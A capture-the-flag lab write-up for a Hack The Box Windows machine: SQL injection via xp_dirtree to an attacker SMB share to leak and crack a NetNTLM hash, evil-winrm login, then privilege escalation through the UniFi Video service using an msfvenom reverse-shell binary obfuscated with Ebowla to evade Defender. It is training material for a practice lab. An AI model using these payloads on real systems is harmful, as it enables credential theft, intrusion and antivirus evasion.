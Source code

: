 **Skills Required**
● Basic knowledge of SQL injection
techniques
● Basic knowledge of Windows
**Skills Learned**
● Using xp_dirtree to leak the SQL Server
service account NetNTLM hash
● Identification of installed programs via
Windows Registry enumeration
● Reverse shell payload creation

Port 80 (http)
port 443 (https)
port 5985(winrm)

With port 80 open, let's take a look at the website in the browser, 
There is only a picture, nothing interesting, so we could try https (443) but it's the same thing.

Let's fuzz this website with the Wfuzz tool.

``` bash
wfuzz -c --hc=404 -w /user/share/seclist/..... http:/10.10.10.104/FUZZ
```

Wfuzz found two routes called "remote" and "mvc", let's chek them on the website.
"Remote" is a login panel, and "mvc" is a website that is not finished, but has some information; i'ts like a marketplace.

In this type of marketplace it is common to find  the url the parameter "ID" so I tried some payloads for sql injection, but it seems not be vulnerable. However, I got an error that showed me a Username, so I save it.  In windows there is a concept  we can try to exploit to steal NetNTLM hash from the user "xp_dirtree sql"  https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

To do this You should start a **SMB server** to capture the hash used in the authentication

``` bash
id=32; EXEC MASTER.sys.xp_dirtree '\\<attacker_IP>\any\thing'
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\share\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash

❯ sudo smbserver.py share ./ -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.104,49704)
[*] AUTHENTICATE_MESSAGE (GIDDY\Stacy,GIDDY)
[*] User GIDDY\Stacy authenticated successfully
[*] Stacy::GIDDY:aaaaaaaaaaaaaaaa:bdff9aca23108d45c047a166ab583683:01010000000000008028cda705edd901bbb40e736f58adb500000000010010006d0044004300570069006d0074006100030010006d0044004300570069006d00740061000200100079004c004b00480045004700630072000400100079004c004b0048004500470063007200070008008028cda705edd90106000400020000000800300030000000000000000000000000300000854cbb70e19a1dccbf562111b06affdf8f28608c7f8ee554fb53d14e855ac5500a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003500000000000000000000000000
``` 

In this way I obtained the NetNTLM hash for the user Stacy, I need to crack it using John
```
❯ john --wordlist=~/Documents/wordlist/rockyou.txt hash
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)
1g 0:00:00:01 DONE (2023-09-21 22:35) 0.6896g/s 1855Kp/s 1855Kc/s 1855KC/s xamtrex..x215534x
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

Whit these credentials I can access  the victim machine using the evil-winrm tool
```
evil-winrm -i 10.10.10.104 -u 'stacy' -p 'xNnWo6272k7x'
```

Now I need to escalate privileges

There is a binary called "unifi video"
looking for a vulnerability with searchsploit I found an eexploit. To exploit it I need to do the following:

```
#I have write privileges in this directory
cd C:\ProgramData\unifi-video

# If I can stop and start the Unifi Video service, and when the service starts (the admin starts the service), it executes a binary, I would attempt to copy an arbitrary binary with malicious code. Then, when the service starts, my binary would be executed.

# The windows defender on the victim machine, doesn't allow me to execute my malicius binary, so I need to bypass this problem
# use Ebowla -> clone the repository https://github.com/Genetic-Malware/Ebowla
# create the malicius binary with msfvenom 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -f exe -o taskkill.exe

#mv the taskkill.exe to the ebowla directory
# edit the genetic.config file -> select output_type = GO -> payload_type = EXE
# [[ENV_VAR]] 
# username = ''
# compoutername = 'Giddy'
# userdomain = ''
# now exuecute ebowla
python ebowla.py taskkill.exe genetic.config
#now I need to compile the .go file 
❯ ./build_x64_go.sh output/go_symmetric_taskkill.exe.go taskkill.exe
[*] Copy Files to tmp for building
[*] Building...
[*] Building complete
[*] Copy taskkill.exe to output
[*] Cleaning up
[*] Done

#now upload the final binary to the victim machine 
```

Now I need to stop  the service on the victim machine

``` powershell
# On my machine-> nc -nlvp 1234

# list the existing services on the victim machine
cd HKLM:SYSTEM\CurrentControlSet\Services  -> UniFiVideoService
*Evil-WinRM* PS C:\ProgramData\unifi-video> cmd /c sc stop UniFiVideoService

SERVICE_NAME: UniFiVideoService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x2
        WAIT_HINT          : 0xbb8
```

Now I have gaine access as "nt authority\system" and i can finish this machine from hack the box.
user flag > c7a8f1ee50e00285f08f1b52ec5a76ba
root flag > dd23753bd49ff3f59cea11032a5c2529